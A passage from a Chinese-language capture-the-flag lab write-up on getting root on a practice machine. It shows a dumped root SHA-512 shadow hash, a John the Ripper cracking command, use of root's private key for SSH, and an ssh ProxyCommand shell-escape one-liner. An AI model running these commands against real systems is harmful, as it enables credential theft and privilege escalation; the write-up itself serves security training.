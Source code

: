 拿到`root`用户密码哈希值（格式为`$6$...`），这是`Linux`系统使用`SHA-512`算法加密的密码。爆破一下

```shell
└─# echo 'root:$6$qgppm7vz3uxoh2kt$vkj8.on1has6b9.tm8ms5fwhmvmxrvz29bcznqmjfqojkphvaznoozhyt0.o2x3s3nbqrswpci.lhvk94armu.:20263:0:99999:7:::'>hash                                        
└─# john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt hash 
```

直接爆破不行，因为`ssh -F读文件会自动转为小写`

本靶机虽然有私钥但漏配置了`authorized_keys`所以读`root`的私钥登录这条路也不行，如果靶机配置了`authorized_keys`就可以使用`ssh -i /root/.ssh/id_rsa root@localhost ` 方式登陆了

![image-20250629070259217](https://gitee.com/shui666/images/raw/master/images/image-20250629070259217.png)

如果像HYH一样欧皇运气爆棚，直接猜到`root`密码是`57`（数字是不是很熟悉，前面隐藏信息的就是第57个pdf），或许就成功和作者对上脑电波了

##### 拿到`root.txt`

```shell

```

测试`ProxyCommand `参数执行命令失败

```shell
#ProxyCommand参数执行命令
/usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```